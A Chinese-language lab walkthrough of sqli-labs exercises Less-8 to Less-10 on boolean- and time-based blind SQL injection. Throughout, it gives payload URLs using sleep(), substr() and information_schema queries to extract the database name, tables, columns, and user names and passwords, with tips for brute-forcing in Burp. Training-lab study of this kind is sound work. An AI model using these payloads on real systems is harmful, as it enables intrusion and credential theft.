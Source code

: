 
# Sqli-labs-Less-8(布尔盲注)![](https://img-blog.csdnimg.cn/20200723105659218.png#crop=0&crop=0&crop=1&crop=1&id=DECLi&originHeight=108&originWidth=1008&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看是否存在注入**<br />老方法这里不多说<br />基本查询是否存在注入点七种：<br />'<br />')
'))
"<br />")
"))
空<br />http://www.web.com/sql/Less-8/?id=1'--+<br />![](https://img-blog.csdnimg.cn/202007180942461.png#crop=0&crop=0&crop=1&crop=1&id=RZW21&originHeight=134&originWidth=395&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
由于是没有数据回显的，采取布尔盲注

**猜测数据库长度**<br />http://www.web.com/sql/Less-8/?id=1' and length(database())=8--+<br />当数据为8时回显正确，说明数据库长度为8。

**以下步骤与Sqli-labs-Less-5 相同不进行详细叙述。**<br />[https://www.yuque.com/xmtxsec/blog/atpffg](https://www.yuque.com/xmtxsec/blog/atpffg)

我们将详细介绍下一种前面从未使用过的方法时间盲注

# Sqli-labs-Less-8(时间盲注)
**查看是否存在注入（使用延时的方法判断）**<br />http://www.web.com/sql/Less-8/?id=1' and sleep(5)--+<br />当存在注入时，页面会延时5s收到数据包

**判断数据库长度**<br />http://www.web.com/sql/Less-8/?id=1' and if(length(database())=8,1,sleep(5))--+<br />当猜测正确时页面会立即刷新并返回正确，猜测错误则延时5s并返回错误<br />这里得到数据库长度为8

**判断数据库名称**<br />http://www.web.com/sql/Less-8/?id=1' and if(substr((select database()),1,1)='s',1,sleep(5))--+<br />![](https://img-blog.csdnimg.cn/20200718100506762.png#crop=0&crop=0&crop=1&crop=1&id=AWuAm&originHeight=142&originWidth=802&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当猜测正确时页面会立即刷新并返回正确，猜测错误则延时5s并返回错误<br />这里得到数据库名称首字母为s

**可以使用burp进行爆破，爆破时建议将线程数调高，或者将延时时间调低，避免等待时间过长**<br />![](https://img-blog.csdnimg.cn/20200718101002391.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Apcas&originHeight=313&originWidth=829&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断表名**<br />http://www.web.com/sql/Less-8/?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',1,sleep(5))--+<br />当猜测正确时页面会立即刷新并返回正确，猜测错误则延时5s并返回错误<br />这里得到第一个表名称首字母为e

**使用burp爆破**<br />![](https://img-blog.csdnimg.cn/20200718101437107.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=oZ5Fg&originHeight=298&originWidth=846&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断字段名（users）**<br />http://www.web.com/sql/Less-8/?id=1' and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u',1,sleep(5))--+<br />当猜测正确时页面会立即刷新并返回正确，猜测错误则延时5s并返回错误<br />这里得到第一个字段名称首字母为u

**使用burp爆破**<br />![](https://img-blog.csdnimg.cn/20200718101850117.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=eIFaO&originHeight=307&originWidth=855&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**判断账户（username）**<br />http://www.web.com/sql/Less-8/?id=1' and if(substr((select username from security.users limit 0,1),1,1)='d',1,sleep(5))--+<br />当猜测正确时页面会立即刷新并返回正确，猜测错误则延时5s并返回错误<br />这里得到第一个账户名称首字母为d

**使用burp爆破**<br />![](https://img-blog.csdnimg.cn/20200718102213131.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=I0KKJ&originHeight=252&originWidth=827&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断密码（password）**<br />http://www.web.com/sql/Less-8/?id=1' and if(substr((select password from security.users limit 0,1),1,1)='d',1,sleep(5))--+<br />当猜测正确时页面会立即刷新并返回正确，猜测错误则延时5s并返回错误<br />这里得到第一个密码名称首字母为d

**使用burp爆破**<br />![](https://img-blog.csdnimg.cn/20200718102213131.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=l0Dvp&originHeight=252&originWidth=827&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将username，password一起进行爆破**<br />http://www.web.com/sql/Less-8/?id=1' and if(substr((select group_concat(username,password) from security.users limit 0,1),1,1)='d',1,sleep(5))--+<br />![](https://img-blog.csdnimg.cn/20200718102751927.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=aSA2A&originHeight=281&originWidth=837&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用concat_ws()函数将username，password进行分割并一起进行爆破**<br />http://www.web.com/sql/Less-8/?id=1' and if(substr((select group_concat(concat_ws('-',username,password)) from security.users limit 0,1),1,1)='d',1,sleep(1))--+<br />![](https://img-blog.csdnimg.cn/20200718102958948.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=pGJM0&originHeight=330&originWidth=845&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
以此类推可以得到所有数据。


# Sqli-labs-Less-9
![](https://img-blog.csdnimg.cn/20200723105740899.png#crop=0&crop=0&crop=1&crop=1&id=Nsg6x&originHeight=88&originWidth=1013&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**判断注入点**<br />当我们无论是使用<br />?id=1'<br />?id=1')
?id=1'))
?id=1"<br />?id=1")
?id=1"))
都无法判断出来，这里需要使用延时方法来判断<br />http://www.web.com/sql/Less-9/?id=1' and sleep(5)--+

以下步骤与Sqli-labs-Less-8中时间盲注相同不进行详细解析


# Sqli-labs-Less-10
![](https://img-blog.csdnimg.cn/20200723105816900.png#crop=0&crop=0&crop=1&crop=1&id=ziNnE&originHeight=112&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**判断注入点**<br />当我们无论是使用<br />?id=1’<br />?id=1’)
?id=1’))
?id=1"<br />?id=1")
?id=1"))
都无法判断出来，这里需要使用延时方法来判断<br />http://www.web.com/sql/Less-10/?id=1" and sleep(5) --+

以下步骤与Sqli-labs-Less-8中时间盲注相同不进行详细解析<br />注意：<br />在Sqli-labs-Less-8中是?id=1'<br />在Sqli-labs-Less-10中是?id=1"

